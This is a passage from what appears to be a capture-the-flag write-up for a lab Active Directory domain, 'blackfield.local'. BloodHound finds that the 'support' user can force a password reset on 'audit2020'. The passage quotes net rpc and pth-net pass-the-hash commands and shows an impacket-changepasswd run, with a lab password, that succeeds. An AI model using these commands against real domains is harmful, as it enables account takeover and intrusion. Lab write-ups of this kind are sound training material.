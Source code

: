 Our `support` user has the password change permission on the `audit2020` user.

`Graph`:
```
SUPPORT ---(ForceChangePassword)--- AUDIT2020
```

`ForceChangePassword`:
```
Info:

The user SUPPORT@BLACKFIELD.LOCAL has the capability to change the user AUDIT2020@BLACKFIELD.LOCAL's password without knowing that user's current password.
```
```
Linux Abuse:

Use samba's net tool to change the user's password. The credentials can be supplied in cleartext or prompted interactively if omitted from the command line. The new password will be prompted if omitted from the command line.
~~~
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
~~~

Pass-the-hash can also be done here with [pth-toolkit's net tool](https://github.com/byt3bl33d3r/pth-toolkit). If the LM hash is not known it must be replace with `ffffffffffffffffffffffffffffffff`.
~~~
pth-net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"LMhash":"NThash" -S "DomainController"
~~~

Now that you know the target user's plain text password, you can either start a new agent as that user, or use that user's credentials in conjunction with PowerView's ACL abuse functions, or perhaps even RDP to a system the target user has access to. For more ideas and information, see the references tab.
```

`Search for a node: svc_backup` > `SVC_BACKUP@BLACKFIELD.LOCAL` > `<right-click>` > `Mark User as High Value`

`Search for a node: lydericlefebvre` > `LYDERICLEFEBVRE@BLACKFIELD.LOCAL` > `<right-click>` > `Mark User as High Value`

`Analysis` > `Shortest Paths` > `Shortest Paths to High Value Targets` > `Select a Domain: BLACKFIELD.LOCAL`

`Graph`:
```
SVC_BACKUP ---(MemberOf)--- BACKUP OPERATORS
```

`impacket-changepasswd -altuser 'support' -altpass '#00^BlackKnight' 'blackfield.local/audit2020@10.10.10.192' -newpass 'H4ck3d!' -no-pass -reset`:
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Setting the password of blackfield.local\audit2020 as blackfield.local\support
[*] Connecting to DCE/RPC as blackfield.local\support
[*] Password was changed successfully.
[!] User no longer has valid AES keys for Kerberos, until they change their password again.
```
